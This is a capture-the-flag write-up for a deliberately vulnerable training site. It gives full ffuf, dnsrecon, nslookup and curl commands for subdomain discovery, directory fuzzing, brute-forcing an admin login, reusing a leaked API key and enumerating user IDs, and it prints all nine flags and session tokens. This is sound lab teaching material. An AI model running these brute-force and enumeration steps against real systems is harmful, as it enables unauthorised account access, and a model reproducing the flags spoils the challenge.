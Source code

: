 ```yaml
---
ctf: cft_challenges
competition: false
categories: [web]
tools: [nslookup, dnsrecon, curl, fuff, seq]
url: https://ctfchallenge.com/challenges/6
points: 900
captured: 2022-05-05
flag: [[^FLAG^BED649C4DB2DF265BD29419C13D82117^FLAG^], [^FLAG^E858ED9649E57BECE9ACD1A4C60D3446^FLAG^], [^FLAG^047524FE61AE6B5FD1D184994C7322FC^FLAG^], [^FLAG^2B22E2CB70E218510802B0359488F6A2^FLAG^], [^FLAG^93D7491FB4B054FB5C5AC3E0292BE41C^FLAG^], [^FLAG^F6A691584431F9F2C29A3A2DE85A2210^FLAG^], [^FLAG^0BDC60CC5E283476E7107C814C18DCCF^FLAG^], [^FLAG^7B3A24F3368E71842ED7053CF1E51BB0^FLAG^], [^FLAG^3D82BE780F46EE86CE060D23E6E80639^FLAG^]]
summary: An introductory vulnerable website to learn about DNS records, sudomain and password bruteforcing, and account takeover.
---
```

## Flag 1 
```
[^FLAG^BED649C4DB2DF265BD29419C13D82117^FLAG^]
```
- Subdomain Discovery: DNS Server Records
	- Interrogate DNS to discover subdomains to get an idea about the size and scale of the application using `nslookup`
		- You may find `TXT` record, for example, that tells us information like how a domain might protect against spam or a string that authentications 3rd party services
- Use `nslookup` to find a `TXT` record that contains a flag

```shell
nslookup -type=any vulnbegin.co.uk 8.8.8.8
```

## Flag 2 
```
[^FLAG^E858ED9649E57BECE9ACD1A4C60D3446^FLAG^]
```
-  Subdomain Discovery: DNS Bruteforce
	- Try to find subdomains by fuzzing using `dnsrecon` and the `subdomains.txt` file and seeing if we can pull a record from it.
- Brute force domains (using `dnsrecon`) to find `server.vulnbegin.co.uk`. Visit it and be sure to set the cookie.
		
```shell
dnsrecon -d vulnbegin.co.uk -D ~/wordlists/subdomains.txt -t brt
```

## Flag 3
```
[^FLAG^047524FE61AE6B5FD1D184994C7322FC^FLAG^]
```
- Subdomain Discovery: SSL Cert Records
	- A public record gets created whenever an SSL certificate is generated for a website, i.e., if you have an SSL, someone will be able to find the subdomain
	- [https://crt.sh](https://crt.sh) is an online database to search for registered SSL certs
- Search [https://crt.sh](https://crt.sh) for SSL certs for subdomains to find `http://v64hss83.vulnbegin.co.uk/`. Visit it and be sure to set the cookie.
	
```shell
curl https://crt.sh/json?q=vulnbegin.co.uk | jq .
curl -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://v64hss83.vulnbegin.co.uk/
```

## Flag 4
```
[^FLAG^2B22E2CB70E218510802B0359488F6A2^FLAG^]
```
- Fuzz for subdirectories and files using `fuff`  using the `content.txt` wordlist to find `/robots.txt`. Once there, you'll find `/secret_d1rect0ry`. Visit it and be sure to set the cookie.

```shell
ffuf -w ~/wordlists/content.txt -t 1 -p 0.1 -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" -u http://www.vulnbegin.co.uk/FUZZ -mc all -fc 404

cpadmin                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 24ms]
css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 23ms]
js                      [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 25ms]
robots.txt              [Status: 200, Size: 41, Words: 3, Lines: 2, Duration: 24ms]

curl 'http://vulnbegin.co.uk/secret_d1rect0y/' -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" 
```

## Flag 5
```
[^FLAG^93D7491FB4B054FB5C5AC3E0292BE41C^FLAG^]
```
- After fuzzing, visit `/cpadmin`, which will redirect to a login page at `/cpadmin/login`. Use `fuff` to brute force the form.
- Fuzz the username using `fuff`  using the `Username is invalid` as a failure test string to find the `admin` username. Then fuzz the password using `fuff`  using the `Password is invalid` as a failure test string. Then login.

```shell
ffuf -w ~/wordlists/usernames.txt -X POST -d "username=FUZZ&password=x" -t 1 -p 0.1 -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" -H "Content-Type: application/x-www-form-urlencoded" -u http://www.vulnbegin.co.uk/cpadmin/login -fr 'Username is invalid'
________________________________________________
admin                   [Status: 200, Size: 1483, Words: 422, Lines: 37]

ffuf -w ~/wordlists/passwords.txt -X POST -d "username=admin&password=FUZZ" -t 1 -p 0.1 -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" -H "Content-Type: application/x-www-form-urlencoded" -u http://www.vulnbegin.co.uk/cpadmin/login -fr 'Password is invalid'
________________________________________________
159753                  [Status: 302, Size: 0, Words: 1, Lines: 1]
```

## Flag 6
```
[^FLAG^F6A691584431F9F2C29A3A2DE85A2210^FLAG^]
```
- When logged into `/cpadmin`, scan the `/cpadmin` directory using the cookie token that gets set in the browser. This reveals `/cpadmin/env` which is a JSON file that contains a flag and an `api-key`

```shell
$ffuf -w ~/wordlists/content.txt -t 1 -p 0.1 -H "Cookie: token=2eff535bd75e77b62c70ba1e4dcb2873; ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" -u http://www.vulnbegin.co.uk/cpadmin/FUZZ -mc all -fc 404 run
________________________________________________
env                     [Status: 200, Size: 111, Words: 2, Lines: 1]

curl 'http://vulnbegin.co.uk/cpadmin/env' -H 'Cookie: token=2eff535bd75e77b62c70ba1e4dcb2873;ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9'
```

## Flag 7
```
[^FLAG^0BDC60CC5E283476E7107C814C18DCCF^FLAG^]
```
- Visiting `/cpadmin/env` gave us an `X-Token` API key. If we set that as a header to a request back to the `server` subdomain (where we originally got  a flag but also a "User Not Authenticated" error), we then get a new flag and a "User Authenticated" message.

```shell
curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://server.vulnbegin.co.uk
```

## Flag 8
```
[^FLAG^7B3A24F3368E71842ED7053CF1E51BB0^FLAG^]
```
- Now that we have the `X-Token` header, we can fuzz for any files or directories that not return a `200`  on the `server` subdomain using the `content.txt` wordlist. 
- This reveals a `/user` endpoint. Visiting `/user` with our `X-Token` header reveals a JSON payload containing a new `/user/27` endpoint.
- This returns yet another JSON payload with a `vulbegin_website` username and `/user/27/info` endpoint
- This returns yet another JSON payload, this time containing a flag.

```shell
ffuf -w ~/wordlists/content.txt -t 1 -p 0.1 -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" -u http://server.vulnbegin.co.uk/FUZZ -mc all -fc 404
________________________________________________
user                    [Status: 200, Size: 89, Words: 1, Lines: 1]

curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://server.vulnbegin.co.uk/user

curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://server.vulnbegin.co.uk/user/27

curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://server.vulnbegin.co.uk/user/27/info
```

## Flag 9
```
[^FLAG^3D82BE780F46EE86CE060D23E6E80639^FLAG^]
```
- Now that we know about the `/user/:id` endpoint, we can fuzz for any other users who we might be able to see.
- This reveals `/user/5`. When we visit it, we get a 403 authentication error.
- We also know about `/user/:id/info`, when we visit that, we get a JSON payload that contains a username of `"admin"`, a description, and a flag.

```shell
seq 1 100 | ffuf -w - -t 1 -p 0.1 -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" -u http://server.vulnbegin.co.uk/user/FUZZ -mc all -fc 404
________________________________________________

5                       [Status: 403, Size: 48, Words: 9, Lines: 1]
27                      [Status: 200, Size: 70, Words: 1, Lines: 1]

curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://server.vulnbegin.co.uk/user/5

curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://server.vulnbegin.co.uk/user/5/info
```
